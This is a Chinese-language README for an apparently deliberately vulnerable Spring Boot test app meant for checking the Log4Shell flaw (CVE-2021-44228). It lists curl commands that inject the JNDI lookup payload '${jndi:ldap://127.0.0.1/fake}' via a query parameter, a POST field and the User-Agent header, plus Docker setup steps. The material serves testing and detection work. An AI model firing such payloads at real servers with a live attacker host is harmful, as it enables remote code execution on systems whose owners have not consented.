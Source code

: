 # Log4j 2 CVE-2021-44228 测试样本应用

基于 spring-boot-starter-log4j2:2.6.1 (log4j 2.14.1)

## 可用接口

| 接口 | 请求方法 | 参数 |
|-----|-----|-----|
| `vulnerable_request_get` | GET | v=payload |
| `vulnerable_request_post` | POST | v=payload |
| `vulnerable_request_header_ua` | GET / POST | Header `User-Agent` |

## 测试可用

* GET
```shell
$ curl 'http://[targetIP]:8080/vulnerable_request_get?v=%24%7Bjndi%3Aldap%3A%2F%2F127.0.0.1%2Ffake%7D'
{"method":"vulnerable_request_get","payload":"${jndi:ldap://127.0.0.1/fake}"}
```

* POST
```shell
$ curl -X POST -F 'v=${jndi:ldap://127.0.0.1/fake}' 'http://[targetIP]:8080/vulnerable_request_post'
{"method":"vulnerable_request_post","payload":"${jndi:ldap://127.0.0.1/fake}"}
```
* UserAgent
```shell
$ curl 'http://[targetIP]:8080/vulnerable_request_header_ua' --user-agent '${jndi:ldap://127.0.0.1/fake}'
{"method":"vulnerable_request_header_ua","payload":"${jndi:ldap://127.0.0.1/fake}"}
```

## 快速启动
```shell
docker run -p 8080:8080 ghcr.io/zzzz0317/log4j2-vulnerable-spring-app:latest
```
注：当前镜像基于 [openjdk:8u111-jdk](https://hub.docker.com/layers/openjdk/library/openjdk/8u111-jdk/images/sha256-c1ff613e8ba25833d2e1940da0940c3824f03f802c449f3d1815a66b7f8c0e9d?context=explore)
## 构建镜像
```shell
docker build -t log4j2-vulnerable-spring-app:latest .
docker run -p 8080:8080 log4j2-vulnerable-spring-app:latest
```
